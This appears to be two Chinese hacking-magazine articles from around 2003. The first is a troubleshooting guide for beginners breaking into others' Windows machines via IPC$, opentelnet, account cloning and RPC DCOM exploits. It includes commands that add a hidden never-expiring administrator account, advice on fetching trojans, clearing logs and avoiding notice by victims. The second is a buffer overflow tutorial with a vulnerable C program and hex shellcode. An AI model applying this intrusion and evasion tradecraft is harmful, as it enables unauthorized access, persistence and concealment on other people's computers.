端口 139 开放：NETBIOS Session Service
[Banner]
[None]
[End of banner]
端口 445 开放：Microsoft-DS
[Banner]
[None]
[End of banner]
```

这并不是说这台机器只开放了这么多端口，而是说明这几个开放的端口包括在了我们的扫描范围内的那几个端口中。Xscan 在默认状态下只扫描部分系统中的重要端口，全部端口都扫描太浪费时间，也没必要。如果某个木马的服务器端开放的端口不在 Xscan 默认范围内，我们只需手工添加进去即可（图 7）。

> 如果确实希望扫描所有端口，在待检测端口处填入 `1-65535` 就可以了。

## 1. Xscan
（见上文描述）

## 2. webdavx 的过期限制问题

isno 版本的 webdavx 在 2003 年 4 月 21 日后使用会提示图 8 所示的信息。一些英文不好的朋友可能会比较郁闷，在各大论坛上偶尔也见到过类似问题。实际上这只是软件作者在编译软件时使用了没有注册的编译工具造成的。

> 我们只需要将电脑的日期更改为 2003 年 4 月 21 日以前就可以正常使用了。

## 3. NetXray 的适用平台

NetXray 作为一款出色的网络分析软件，不但是网管的得力助手，更是不少黑客技术爱好者的最爱。但令人遗憾的是，它只支持 Win98 平台，如果在 Win2000 或 WinXP 平台下使用，尽管网卡、网络连接等配置都没有问题，也会出现图 9 所示的提示，说找不到网卡。

> **向导答案：**更换系统平台为 Win98 或者 WinME 即可。

## 4. 漏洞溢出程序

这里我们以 Snake 的 IIS 漏洞溢出工具为例，来说明不少朋友使用时的误区。出现图 10 所示的窗口就一定代表漏洞溢出成功了吗？

当然不是，大家注意看，图 10 中的端口明白地写着 5000 端口，而不是 80 端口。实际上，这台受到攻击的电脑并没有安装 IIS，当然也就不可能用 IDQ 漏洞入侵成功。由此我们也可看出，漏洞溢出攻击程序只是向相关服务开放的端口发送数据，图 10 中的提示只能说明数据包已被成功发送到了对方的 5000 端口，而说明不了任何其他问题。

## 黑客工具使用：建立 IPC$ 连接是前提

目前网上流行的很多针对 Win2000、WinXP 平台的黑客工具在使用前都要求建立 IPC$ 连接，而很多朋友不考虑使用条件就直接使用攻击程序进行入侵，当然是会导致失败了。这里我们总结了目前网络上常见的以建立 IPC$ 为前提的攻击软件。

## 1. opentelnet

opentelnet 是我们入侵中常用的工具，我们在获得了管理员账户和密码后通过这个小程序就可以远程开启对方的 telnet 服务，这样就可以获得对方的一个管理员权限的 shell 了。但 IPC$ 始终是 opentelnet 的一道坎，如果没有建立 IPC$，就会出现如图 11 的错误。

## 2. CA

CA 是一s款出色的账户克隆软件，但在使用前也要求我们建立具有管理员权限的 IPC$，这样才可使用 CA 远程为对方克隆账户。如果没有建立 IPC$ 就使用 CA，则会出现图 12 所示的界面，和 CA 搭配使用的克隆账户检测软件 CCA 也是一样的道理。

## 3. dameware

dameware 是一款独具特色的远程控制软件，它最大的特点就是只要知道了管理员账户和密码，和对方建立了 IPC$ 就可以通过直观的画面来远程监控对方，而不需要像木马一样还要想方设法让对方运行服务器端。但如果没有建立 IPC$，就会出现图 13 的错误提示。

> **注意：**如果对方安装了安全防火墙，也会出现这种情况，但本质上还是由于防火墙禁止了 IPC$ 的建立。

## 漏洞溢出

有过利用缓冲区溢出漏洞攻击经验的朋友一定会知道，即使是在同一段时间内，针对同一台机器，也并不是每次漏洞溢出攻击都能够成功的，影响漏洞溢出成功率的因素是多方面的。

## 1. 溢出程序的问题

应该说在影响溢出漏洞攻击成功率的因素当中，这是最为重要的原因了。在每一个严重的缓冲区溢出漏洞出现后不久，都会有一些高手们将自己所写的攻击程序发布出来。由于技术高低不同，就导致了有些版本的攻击程序代码可能存在一些错误，例如偏移量出问题之类的，这样在溢出攻击时就可能导致不成功。如果自己运气好，也许溢出程序的成功率能达到 70% 以上；如果运气不好，也许成功率只有 10% 左右。但是有一点是肯定的，没有成功率为 100% 的溢出程序。

另外，希望大家在使用溢出程序时务必细心些，看清楚自己使用的溢出程序是针对什么操作系统版本的。对 Win2000 SP2 的溢出程序可能对 WinXP 不会奏效，对英文操作系统的溢出程序也不一定适用于中文操作系统，这些都是初学者需要注意的问题。

## 2. 漏洞问题

不同的漏洞具有不同的特性，这是我们所需要注意的。例如早期 IIS 的 IDQ 漏洞在每次溢出后就会导致 IIS 自动重启，如果利用此漏洞制作的回连攻击完成后而导致 IIS 重新启动失败，那么我们自然就不能再进行溢出攻击了。唯一的办法只能是一次溢出攻击就完成入侵，然后使对方系统重新启动。但有些漏洞就不必担心此类问题，因为它不会导致相关服务的重新启动。近来发现的 RPC 漏洞在攻击后有可能会导致对方的 RPC 服务崩溃，那么我们就无法再进行下次攻击了，不过也出现了相关工具来使对方 RPC 服务恢复。只有在进行了成功的恢复后我们才可进行再次的溢出攻击。

### 3. 防火墙屏蔽

还有很多情况，缓冲区溢出漏洞不成功的原因在于对方安装了网络安全防火墙。这样一来即使我们成功溢出了对方，端口也仍旧开放了，但是防火墙的阻隔使得我们没法连接溢出的端口。

## 权限不足

## 1. 取得用户权限

有时虽然成功建立了 IPC$ 或者是成功溢出得到了一个 shell，但是却无法将自己的木马、后门上传到对方系统。出现这种现象的原因一般多为取得的权限不够。出现“系统错误 5”通常代表我们的权限还不足以进行我们想要做的操作。

## 2. 绕过用户 NTLM 验证

在获取目标主机的一定权限后，很多人都会去开启 telnet 服务，因为这个服务适合用来做后门，但在 NT 架构的系统上需要我们进行 NTLM 验证（图 14）。此时我们选择“Y”或“N”都无法成功进行 telnet 登录。

怎么办？就此止步？显然不该是一个黑客技术爱好者所采取的方法。有很多种方法都可绕过 NTLM 验证，例如使用专门软件或编写 .bat 文件等。这里我们只介绍一种最为简单实用的方法：假设我们已获得了对方的用户名“administrator”和密码“123456”，那么我们只需在自己的电脑上也建立这么一个用户，并设置密码为“123456”即可。

打开 CMD 时不要通过“开始”菜单的“运行”，而是通过“开始”菜单“附件”中的“命令提示符”。不过得事先进行设置：右键单击“开始”菜单附件中的“命令提示符”，选择“属性”，点击“高级”，然后在“以其他用户身份运行”前的方框内打勾（图 15）。这样一来，我们在打开命令提示符时系统会提示用什么身份运行，这时输入刚才建立的用户名“administrator”和密码“123456”。

## 在利用 IPC$ 入侵过程中出现的问题

在当前网络入侵中，由于 IPC$ 扮演着极为重要的角色，所以我们特别列出一个标题，来为大家解决在 IPC$ 入侵中常见的问题。在这个 CMD 中用 telnet 登录对方的机器，就可绕过 NTLM 验证。

## IPC$ 无法成功建立

不少对 IPC$ 不了解的朋友可能都会尝试在 Win98 上与对方建立 IPC$（不少朋友还是通过网吧的 Win98 在上网）。IPC$ 本身是 WinNT、2000、XP 平台才具有的特性，因此 Win95、Win98、WinME 平台是无法建立 IPC$ 的。

这里要求不论自己或是对方，都是基于 NT 架构的系统。另外还有一点就是大家要注意区分发起 IPC$ 和被建立 IPC$，这两种情况是两个不同的概念，别人无法和自己建立 IPC$ 并不会影响自己是否能够与他人建立 IPC$。还有一些朋友认为只要对方开放了 139 或者是 445 端口就应该可以建立 IPC$，其实这种想法不一定正确。139、445 端口开放了未必可以建立 IPC$，但 IPC$ 可建立则必然 139 或 445 端口开放了。


下面是些常见错误号的排错分析：

## 常见错误号的排错分析

- **错误代码 5**：这个错误是由于进行操作的权限不够造成的。我们可以使用 guest 来登录建立连接，但 guest 不能用这样的权限来做对方的硬盘根目录存取或拷贝，就会出现错误提示了。说白了 IPC$ 的限制还是登录的用户，即使是管理员账号也只是具备 guest 权限，因此是不能够复制文件的。
- **错误代码 53**：对方没有开启默认共享会导致此类错误产生。
- **错误代码 67**：网络适配器硬件出错。
- **错误代码 67**：这个错误多数可能是由于对方的防火墙限制造成的。
- **错误代码 85**：这个错误一般是由于自己已经映射了一个磁盘，再又使用相同的盘符来映射。
- **错误代码 1219**：IPC$ 的特性决定了它只能在同一时刻建立一个连接。如果我们通过命令行的方式，或者是其他的方式建立了 IPC$，在没有删除这个连接的情况下，再去建立一个新连接就会出现错误提示。（在开始菜单的运行中输入 `\\xxx.xxx.xxx.xxx`，然后在弹出的窗口中输入用户名和密码也是一种建立 IPC$ 的方式。）
- **错误代码 1326**：一般而言，这个错误是由于用户名或者密码输入错误造成的。
- **错误代码 1792**：试图登录，但是网络登录服务没有启动。
- **错误代码 2242**：这个错误通常是由于对方的管理员设置了账户密码策略，而恰好密码已经过期。

另外，提醒大家在复制文件时确认自己想要复制到的共享文件夹已经开启，这样可避免不少问题。

## at 命令计划问题

在建立一定权限的 IPC$ 连接后，不少朋友会考虑上传一个后门程序，然后使用 `net time` 查看对方的系统时间，然后使用 `at` 命令让后门程序在指定的时间运行。但有的时候我们会发现时间到了，后门程序却仍然无法和我们接上头。其中一个很可能的原因就是对方 Task Scheduler 服务并没有开启。这样一来我们自然无法使用计划任务来使后门程序运行了。

## 特殊网络结构

由于网络上和各大安全媒体对目前蠕虫、端口重定向等技术的广泛介绍，因此难免我们在入侵的时候会遇上采用了端口重定向或者是蠕虫技术的主机，另外也有可能遇到纯粹的网络结构。这或多或少会给我们在入侵深入过程中制造许多障碍和疑惑。

## 有关终端服务

终端服务的优点太多了：占用带宽小、效果好，几乎与本地操作没有多少区别，系统自带……因此，终端服务成为每位黑客技术爱好者在入侵中所希望得到的远程监控方式。但有时终端服务会出现这样或那样的问题，这里我们就对一些常见问题来做个简要分析。

### 1、WinXP 的远程终端

早些时候，我曾扫到了一个开有 3389 的 WinXP 主机，并且成功破解了一个管理员账户。当然，我想到了用终端服务客户端去连接它，尽管可以连接上，但总是很快就断掉了。

后来通过思索和分析，并用身旁另一台电脑作了实验才知道，原来 WinXP 的终端服务同 Win2000 Server 的终端服务是不同的。由于 Server 版本所提供的功能以及面向用户均不同于 WinXP，所以 Server 版本的终端服务是支持多用户登录的，而 WinXP 的终端服务只支持单用户。所以当我用所获得的管理员账户进行登录时，由于对方也在使用这个账户，他的这个账户就会自动注销，我则通过终端服务成功登录。这个时候对方当然是很郁闷了，但是很可能他还没有意识到自己被入侵了，所以他只是又简单地重新登录。他登录上了，那么我自然就自动注销掉了。整个过程就相当于我和他用同一把钥匙在抢同一扇门的控制权，他进去了我就被挤出来，我进去了他就被赶出来，总之只能同时待一个人在门里面。

### 2、Win2000 Server 的终端服务

- **(1) 运气太好的人**：这个标题是献给那些仅仅用扫描器就获得了管理员账户和口令，碰巧对方又开放了 3389 端口的朋友。难道说这样的好事情运气还不好吗？但是不少朋友在完成了终端服务的连接后却发现对方没有开放 IPC$，自己不知道该怎么样上传文件和下载对方的文件。遇到这种问题的朋友大多数都是 IPC$ 用得太多了，思维被限制在一个小圈子里面了。拿到了管理员权限的终端服务，还有什么不可以做呢？我们可以通过以下几种方法来和对方完成数据交换：
    - A. 对方没开 IPC$，那么我们就给他打开 IPC$。
    - B. 自己建立 tftp、ftp 服务器，在对方机器上连接我们自己的服务器下载文件。
    - C. 使用对方的 IE 去黑客站点下载木马的服务器端，安装木马程序。
    方法还有很多，就不一一列举了，不过建议大家最好在对方机器前没人的时候进行操作比较保险，也不要忘了清除日志。

- **(2) 运气够背的人**：辛辛苦苦通过漏洞溢出，获取管理员权限，打开 3389 端口，入侵之后不介意被对方发现了，这样还不算倒霉吗？仔细思考才发现原来很多人有这样的一个习惯，就是在建立终端服务连接后，关闭的时候直接点击终端界面右上角关闭按钮来断开。这种关闭方式实际上只是关闭了客户端的一个窗口，实际上这个会话还仍然存在，如果被入侵的一方此刻关闭计算机，那么就会显示如图 16 的一个窗口。这样一来有经验的管理员不久什么都知道了吗。


- **(3) 最大连接数问题**：有时我们知道对方开放了终端服务，却无法连接。因为登录到这台机器上的用户已经超过了允许的最大连接数（最大为 2 个用户）。这该怎么办呢？如果我们已经可以通过 telnet 登录上去的话，使用 `logoff kaka` 就可以让 kaka 这个用户注销掉了。这样一来我们就踢掉一个用户可以正常登录连接了。

## 服务器端配置

telnet 是网络入侵常用的途径，但是有的时候会出现一些错误，到底是我们操作的失误还是网络故障，或者是服务器端进行了配置。我们应当区分清楚是属于哪一类型的问题，避免多做无用之功（图 17）。


这是一次笔者在入侵过程中遇到的现象，与我们常见的错误提示不同。通常我们见得最多的情况如图 18 所示。


这是由于 telnet 服务没有成功开启或因为防火墙屏蔽了对 23 端口的访问造成的。而图 17 已经明确提示了 “Telnet Server Build 5.00.99206.1”，这句话足以说明我们已连接上对方的 23 端口，并且能获得对方的 telnet 服务端版本信息。但在输入了用户名和密码后就提示“遗失对主机的连接”，这到底是怎么回事呢？如果是用户名或密码错误，系统应该会有如图 19 的提示。


经我多方实验，发现原来很可能是管理员在服务器端进行了一些配置。从控制面板的管理工具进入 telnet 服务器管理界面。选择“3 > 显示／更改注册表设置”，这时会看到我们熟悉的更改 telnet 用户的一个步骤界面（图 20）。


此时我们选择“4 > DefaultShell”，会出现图 21 所示的界面。


这里我们可看到 telnet 的登录默认 shell 是指向 `cmd.exe` 这个文件的，如果我们此时将路径或文件名进行更改，指向一个不存在的文件名，然后再进行登录，我们就会发现，这时候可以连接端口，却无法正常登录 telnet 服务。

那么我们来思考一下为什么管理员会做这样的配置？通常我们在采取防范措施的时候只是禁止 telnet 服务，但熟悉入侵的朋友都知道，有不少攻击都能够自动开启已经被禁用的 telnet 服务，这样就不能起到防范入侵的作用。而进行了这样的设置，等于加了双重保险，而这一招又是很多入侵者所没有料到的。让入侵者在黑黑的屏幕前郁闷郁闷，遇到了这样的管理员入侵者们还不快点闪啊。

## 入侵实例

以上说了那么多初学者容易犯的错误，下面来个实际的例子给大家演示一下。

RPC 漏洞可以说是微软有史以来出现的最大的漏洞，一时间网上攻击程序满天飞，扫描程序也是层出不穷，这里我使用 scanrpc.exe 和微软自己出的扫描器 scan.exe 作比较。

图 22 是使用 scanrpc.exe 对一个网段扫描的结果，我们可以看出基本上所有扫描出来的机器都存在 RPC 溢出漏洞，但实际上是不是这样呢？检验真理的唯一方法是实践，啊呵，是检验扫描正确与否。这里我使用的是 oc192.us 写的 RPC DCOM exploit，我们选择 192.168.1.78 作为测试对象，测试结果如图 23。


从图 23 我们可看出，Exploit 无法远程溢出成功。提示如下：

```
[-] Couldnt connect to bindshell, possible reasons:
1: Host is firewalled
2: Exploit failed
```

这时可能有的读者要问了，你看明明扫描器扫描的结果是 VULN，说明目标机器存在 RPC 溢出漏洞啊，为什么还溢出不成功？于是不停地进行 RPC 溢出，不断地收到失败的提示，浪费了寻找其他漏洞的时间与精力。其实这只是此款扫描器的误报。

> 对同一攻击目标进行不同的扫描器扫描，并对不同的扫描结果进行分析，有助于自己的攻击经验积累，更快找出目标机器的致命漏洞。

我们来看下微软自己出的检测工具扫描 RPC DCOM 漏洞的情况。该工具在命令提示下使用，包含对 MS03-039 和 MS03-026 的检测。还是对我刚刚扫描的范围再扫描一次，扫描结果如图 24。看来 192.168.1.78 并不存在溢出漏洞，那么真正可以溢出成功的结果是怎么样的呢？图 25 是一次 RPC 溢出失败和成功的截图。

图 25 中 `Rpcd -d 10.10.100.54` 溢出后，出来对方的 shell 环境：`C:\WINNT\SYSTEM32>`，在这个提示符下，你的所有操作都是在对方的机器上进行的，比如你可以添加一个管理员账户：

```
Net user kaka itzixun /add /expires:never
Net localgroup administrators kaka /add
```

以上添加了一个用户名为“kaka”、密码为“itzixun”的永不过期管理员账户。


## 总结

通往电脑的道路不止一条，作者也是从菜鸟的道路一步一步走过来的，怎么也不可能一口吃成胖子的，什么事情都是慢慢来的，希望初学者能从本文汲取到自己所需要的知识与经验，在学习黑客技术的道路前进一步！Good Luck!

---

## 菜鸟缓冲区溢出编程步步高
**王炜 WW0830**


铃铃铃……主题乐园上课啦！众小菜们都规规矩矩地坐在位置上，看着老师，大气也不敢出。老师环顾了下教室，然后清了清嗓子，问道：“小菜同学们，你们说网络上的攻击手段有哪些呢？”众小菜马上七嘴八舌地应道：注入、缓冲区溢出、劫持、还有、还有嗅探……

“哈哈，对！”老师满意地说道，“同学们说得很好！现在最流行的主要是两种方式，一种是 SQL 注入，另一种就是缓冲区溢出攻击。我们选一个作为今天讨论的主题吧！”

“好小白，好 yeah，讲什么呢？”
“不知道，不如解密吧！”

老师差点晕过去。隔了好久，才回过神来，说：“关于 SQL 注入的方法，以前的主题乐园作过介绍，从原理到实例分析，再到实际的攻击测试都很详细，今天就不涉及了。”
“那就是讲缓冲区溢出了？”
“对！”
“不过好像很难呀……”
“不用怕！大家只要有信心，有毅力，就一定会解决。Follow me!”

### 一、让我们开始吧：缓冲区溢出原理剖析

“好，首先让我们来感性地认识一下缓冲区以及缓冲区溢出吧。”
“先作下类比，如果一个人把一瓶啤酒全部倒入一个小杯子中，那装不下的啤酒就会四处冒出，流到桌子上，这个大家都清楚吧（图 1）？”
“是啊，是啊”，众小菜说道，“那好浪费啊！啤酒没了啊！”
“这么热的天，啤酒、小菜，再加上欧洲杯、亚洲杯，好舒服啊！”
“就是啊，谁这么做的？拖出来打一顿！”
“安静！安静！”老师好不容易把秩序维持下来，“我只是打个比方而已！”

“同样的道理，在计算机内部，输入数据通常被存放在一个临时空间内，这个临时存放空间就被称为缓冲区，缓冲区的长度事先已经被程序或者操作系统定义好了。缓冲区就像那个啤酒杯子，用来装东西，而且大小固定。”


“向缓冲区内填充数据，如果数据的长度很长很长（就如同是那瓶啤酒），超过了缓冲区（那个啤酒杯子）本身的容量，那么结果就如同啤酒四处冒出一样，数据也会溢出存储空间！装不下的啤酒会流到桌子上，而装不下的数据则会覆盖在合法数据上，这就是缓冲区和缓冲区溢出的道理。”

“当然在理想的情况下，程序检查每一个数据的长度并且不允许超过缓冲区的长度大小，就像在倒啤酒的时候，眼睛看着杯子，要冒出时就停止。但是有些程序会假设数据长度总是与所分配的存储空间相匹配，而不作检查，从而为缓冲区溢出埋下隐患。”

“OK，那我们如何利用缓冲区溢出呢？在一般情况下，就像啤酒会到处流满桌面一样，溢出的数据会覆盖掉任何的数据、指针或内容，除了破坏之外，对攻击者来说没有任何好处！但我们可以引导溢出的啤酒流向一个地方，也可以引导溢出的数据，使计算机执行我们想要的命令。这就是很多漏洞公告上说的，……黑客可以用精心构造的数据……就是这个意思。”

“如果初学，还不熟悉这个概念，可以先把缓冲区溢出利用理解为允许攻击者在某个程序变量中放一个比期望长度要长的信息，由此以当前运行该程序用户的特权执行任意的命令。”

“而具体的利用和方法，就是如何精心构造它。”老师最后说道，“我们将在下面说到。有收获吗？好，现在下课休息一下。”

### 二、神秘的 Windows 系统结构：缓冲区溢出利用方法

“嗯哼！”小菜们说道，“明白什么是缓冲区溢出了！就是啤酒和杯子嘛，明白了，明白了，放学吧，放学吧！”

“Shut Up！”老师一声大吼，众菜鸟一愣，“这只是最基本缓冲区溢出的原理，要想掌握利用还早了，都坐下！”老师接着说。待大家安静之后，老师说道：“学缓冲区溢出要有耐心，不能太浮躁，知道缓冲区的系统结构了吗？知道怎么执行我们想要的程序了吗？”

众小菜摇头：“不知道。”

“好，既然不知道，那就安安静静地坐好，马上就是最关键的地方了，我们继续。”小菜们问道：“什么关键的地方呢？”

“就是 Windows 系统内部处理缓冲区的机制，我们明白了这个之后，就可以利用缓冲区溢出漏洞来完成我们想要的事情了——控制别人的主机。”

“好哇，好哇。”一阵欢呼。

“为了讲清楚 Windows 如何处理缓冲区的，我们看一段很简单的小程序。考虑到大家的基础，我的讲解都尽量少提很复杂的代码，多作感性的讲解。唉，基本上都是一样的。”

“好！那我们立刻开始这段程序吧！”众小菜迫不及待了。

“好，这个很简单的小程序是这样的。”老师在墙上投影出程序源码：

```c
/* 很简单的程序 */
#include <stdio.h>
#include <string.h>
char name[] = "ww0830";
int main()
{
    char output[8];
    strcpy(output, name);

    for(int i=0;i<8&&output[i];i++)
        printf("\\0x%x", output[i]);
    return 0;
}
```

“这个程序，还比较简单吧？”老师小心翼翼地问台下。台下一阵沉默，小菜们都在头晕中呢……

“好，好，好，我再解释一下！这是用 C 语言写的程序！”
台下一阵狂晕：“地球人都知道！”

“不要急，我一句一句地来。首先 `#include <stdio.h>` 和 `#include <string.h>` 是包含这两个头文件进来，因为后面使用的 `strcpy` 函数和 `printf` 函数是这两个头文件中定义的。”
“然后 `char name[] = "ww0830"`，是把 name 这个数组赋值，往里面放入 ww0830 这几个字符。”
“哦，为什么要放入 ww0830 而不放其他的呢？”小菜们疑惑不解。
“因为这是我的名字啦，哈哈！这个并不重要，什么都可以放，后面大家就会看到的。然后是 `int main() { …… }`，这个是重点，即我们常说的主函数！程序进来就是先找到这个地方，执行里面的语句。”


“接下来的 `char output[8]`，`strcpy(output, name)`，是让系统给 output 变量分配 8 个 char 的空间，然后把 name 里面放的字符串拷贝给它。”
“`strcpy(des, source)` 这个拷贝函数是把第二个参数 source 的值复制给第一个参数 des。它是不检查拷贝长度的，它会一直拷贝，直到 source 到结尾。这就是它的缺点了！”
“下面的 `for(int i=0;i<8&&output[i];i++) printf("\\0x%x", output[i])`，只是让大家方便检查 output 里面的值，我把它以 16 进制的形式打印出来。”

台下小菜们听得聚精会神，一片安静。

“好，让我们运行一下，看看结果吧！在 VC 中编译、链接、执行，GO！”（图 2）。

“看，输出的是 \0x77\0x77\0x30\0x38\0x33\0x30，77 就是 w 的 16 进制表示，而 30、38、33、30 就是 0830 的 16 进制表示。程序运行后一切正常，把 ww0830 的 16 进制打出后，安全地退出了。”
“呼……”台下长出了一口气，“对，明白了，明白了。”


“呵呵，大家明白了就好。刚才大家不是问为什么要输入 ww0830 吗，好！那我稍微改一下，改成其他的。这次我把 name[] 的值赋成 abcdefgh，大家再看看运行的结果有什么问题没有！”（图 3）。众小菜们使劲地看呀看，然后小心翼翼地问：“只是把 abcdefgh 的十六进制 61、62、63 等打出来而已，有什么问题吗？”

老师瞟了一眼，然后说道：“对！其实就是没有问题！”台下歪倒……“目的是让大家清楚地看下面真正的玄机。”


“这个我把 name 再改长点，改成 abcdefghijklmnopqrstuvwxyyz，再运行，大家看啊！”（图 4）。
“哦哦哦哦……不得了了，出错了！”台下一阵恐慌。

“哈哈，不要急，不要急。”老师摆出一副天塌下来自己顶的模样。“大家来仔细看看这个出错的警告是什么。”
“是 0x706f6e6d 引用的 0x706f6e6d 内存，该内存不能为 read。”
“当然，当然，你们不觉得 6d6e6f70 这些很熟悉吗？我们的第二个程序中打印出的……”老师提示道。
“哦，abcd 是 61626364，那 6d6e6f70 就应该是 mnop 了”菜鸟们一阵恍头苦算后欢呼道！

“Good，我给一个对应转换表吧，以后大家用来直接查就可以了。”老师打出如下的表格：

| Char | Hex | Char | Hex | Char | Hex | Char | Hex |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| w | 77 | A | 41 | M | 4D | Y | 59 |
| x | 78 | B | 42 | N | 4E | Z | 5A |
| y | 79 | C | 43 | O | 4F | a | 61 |
| z | 7A | D | 44 | P | 50 | b | 62 |
| 0 | 30 | E | 45 | Q | 51 | c | 63 |
| 1 | 31 | F | 46 | R | 52 | d | 64 |
| 2 | 32 | G | 47 | S | 53 | e | 65 |
| 3 | 33 | H | 48 | T | 54 | f | 66 |
| 4 | 34 | I | 49 | U | 55 | g | 67 |
| 5 | 35 | J | 4A | V | 56 | h | 68 |
| 6 | 36 | K | 4B | W | 57 | i | 69 |
| 7 | 37 | L | 4C | X | 58 | j | 6A |
| 8 | 38 | k | 6B | l | 6C | m | 6D |
| 9 | 39 | n | 6E | o | 6F | p | 70 |
| q | 71 | r | 72 | s | 73 | t | 74 |
| w | 77 | v | 76 | | | | |

“嗯，现在大家清楚了，刚才的程序是输入到 mnop 时候出错了，那究竟是什么原因，为什么在 name[] 比较短的时候不会有问题，而比较长的时候就会出错呢？”

# 主题乐园

众小菜眉头紧锁：“不知道。”

老师说：“嗯，这个就涉及到 Windows 的运行机制了。”

“哇！岂不是好难啊！”

“No，只要理解了两个概念，再结合实际分析一下，就很简单了。我会用很简单的话解释出来。”

“第一个概念是中断。可以举一个日常生活中的例子来说呀：假如你正在给朋友写信，电话铃响了。这时，你放下手中的笔，去接电话。通话完毕，继续写信。这个例子就表现了中断及其处理过程：电话铃声使你暂时中止当前的工作，而去处理更为急需处理的事情（接电话），把急需处理的事情处理完毕之后，再回头来继续原来的事情。”

“第二个概念是堆栈。计算机为了能回头继续原来的事情，就需要把原来指令的指针 EIP 保存往堆栈中；当要回去原来的地方时，就把保存在堆栈中的 EIP 恢复就可以了。”

“并且各个函数局部变量的分配地方也是在堆栈中。”

台下似懂非懂。

“我们再看刚才的那个程序就清楚了。”

> 小知：堆栈是一种数据结构，遵循“先进后出，后进先出”的规则，就像我们平时叠盘子一样，先放在下面的最后才能取出来，最后放上去的最先取出来。而在操作系统中，存和取的动作就是 push 和 pop。Push 放一个数据到堆栈中去，Pop 取一个堆栈中的数据出来。

“第一次我们输入的只是 abcdefgh，因为要进入 main 函数，所以系统把之前的 EIP 和 EBP 保存在堆栈中，便于以后恢复；然后为 output[8] 在堆栈中分配 8 个 char，拷贝 abcdefgh 到其中。注意，Windows 下堆栈的分配是高地址往低地址分配的，其结构如图 5 所示。”

“这样在执行完 main 函数后，就把保存在堆栈中的 EBP、EIP 恢复回去，就可以继续原来的执行过程而没有任何问题。”

菜鸟们点点头：“大概明白了，啊！”

“好，那么一次输入 abcdefghijklmnopqrstuvwxyz 时，output 分配情况还是 8 个字节，但却拷了 26 个字母进去，和前面比较，其结果如图 6 所示。”

“小菜们注意！因为拷贝的字母太长，所以不仅把分配给 output 的 8 个字节占满了，而且还继续往下，把保存的 EBP 和 EIP 给占据了。”

“当执行完 main 函数后，系统要恢复 EBP、EIP，而 EIP 已经被我们覆盖成 mnop 即 6d6e6f70 了；但系统不知道，就会去执行 6d6e6f70 位置的东西，而那个位置是不可读的，所以就出错了。”

“哇！就是啊！”小菜们一片欢腾。

“呵呵！现在大家想一想，我们可以通过覆盖 EIP 为任意值，来让程序运行到一个错误的地方，那如果我们特意把 EIP 覆盖成我们想去的地方，那会怎么样呢？”

“应该就会运行我们想要的程序吧……”小菜们答。

“很好！就是这样的。下面来看看我们想要的程序是如何编写的吧！”

## 三、其他知识

### Shellcode 编写简介

“一般来说，我们把想要的程序称为 shellcode。Shell 最先指人机交互的界面，而这里 shellcode 不仅仅指交互了，可以是实现任意功能的代码。”

“Shellcode 的编写是很深奥的，涉及到很多方面，在这里就不多说了。只给个例子，就是 Windows 下如何将一个 C 代码编写的程序转换成 shellcode 的 16 进制形式。”

“我们想要的程序功能最好是能够开一个 DOS 窗口，那我们可以做很多事情。比如下面这个程序。”

```c
#include <windows.h>
int main()
{
    LoadLibrary("msvcrt.dll");
    system("command.com");
    return 0;
}
```

“大家看！执行一个 command.com 就可以获得一个 DOS 窗口，在 C 底层处理里面，语句 `system("command.com");` 将完成我们需要的功能。”

> 小知：Windows 不像 Unix 那样使用系统调用来实现关键函数。Windows 通过动态链接库来提供系统函数，就是所谓的 DLL。

“system 函数由 msvcrt.dll（the Microsoft Visual C++ Runtime library）提供，所以要想执行 system，我们必须首先使用 `LoadLibrary("msvcrt.dll");` 装载动态链接库 msvcrt.dll，之后才能调用 system 函数。”

“OK，我们执行，看看效果吧。弹出来了一个 DOS 对话框！可以执行 dir、copy 等命令。”（图 7）

“哇，太神奇了！”小菜们一片欢腾。

“呵呵，现在我们把程序改为机器码。可能你们过去也看到过，别人的程序中有很多 `\x01\xff\x3f\xff` 一类的东西，那些就是程序的机器码啦。我们也把我们的程序变成机器码吧。”

“可是怎么变呢？”小菜们有些疑惑。

## 一个简单的本地缓冲区溢出例子

“很简单！”老师说道，“在 VC 中，按 F10 调试，然后在 Debug 工具栏中，点最后一个按钮 Disassemble，这样出现了源程序的汇编代码，再在代码窗口上点右键，在弹出菜单中选择 ‘Code Bytes’，这样就出现了机器码，你们看！”（图 8）。

“哦，我们把它抄下来就可以了，呵呵。”小菜们高兴了，他们比划着写下来。

```c
char shellcode[] =
"\x8B\xE5\x55\x8B\xEC\x83\xEC\x0C\xB8\x63\x6F\x6D\x6D\x89\x45\xF4\xB8\x61\x6E\x64\x2E\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xF4\x50\xB8\x24\x98\x01\x78\xFF\xD0";
```

老师说：“对，其实编写一个真正实用的 shellcode 还有很多问题要解决，比如通用性、功能等，需要很高深的技术功底，但我们在这里就不深入了，下次有机会再专门为 shellcode 上一节课。初步大家就这么认为吧。接下来，我们把这些背景知识连起来，写一个真正的利用程序！”

“好 yeah!”

“首先，我们分析一下现在拥有的资源。”

- 1. 我们知道有问题程序返回点的精确位置，意思就是我们可以把它覆盖成任意地址，让计算机执行那个地址的代码。
- 2. 我们有了 shellcode——一个可以提供 DOS 窗口的代码。
- 3. 那接下来，大家想想，我们应该做什么呢？

“……”小菜们沉思中：“莫非把有问题程序的返回点地址覆盖为 shellcode 的地址？”

“Very good! 这三步就是缓冲区溢出攻击的基本原理和精髓！现在我们有了前两步，返回点定位和 shellcode 的编写，只需要完成第三步——把返回点覆盖成 shellcode 的地址，就可以成功利用缓冲区溢出了！”

“哈哈，太好了！”小菜们口水都流出来啦……

“那现在的问题就是 shellcode 所在地址是多少呢？就是说我们把返回地址覆盖成多少呢？”

“呜……好像不好办啊……”

“嗯，在以前很多人提出了各种办法来定位 shellcode，但都不精确。随着技术的发展，1999 年 dark spirit AKA Barnaby Jack 提出了一个天才的想法，使用系统核心 DLL 里的指令来完成跳转！这一技巧开创了一个崭新的 Windows 缓冲区溢出思路！”

> 过去，尤其是在 Unix 下，提出过的覆盖方法主要有两种：
>
> - 一是 **NNNNNNNNNSSSSSSSSSSSRRRRRRRRRRRRR** 型，适合于大缓冲区。N 代表空指令（NOP），也就是 0x90，在实际运行中，程序将什么也不做，而是一直撞着这些 NOPS 运行下去，直到遇到不是 NOPS 的指令再执行之；S 代表 shellcode；R 代表被覆盖的返回地址。思路是把返回地址 R 覆盖为 NOPs 的大概位置，这样就会跳到 NOP 中，然后继续执行，直到我们的 shellcode 中。但这种方法由于定位不准确，所以使用起来也不准确。
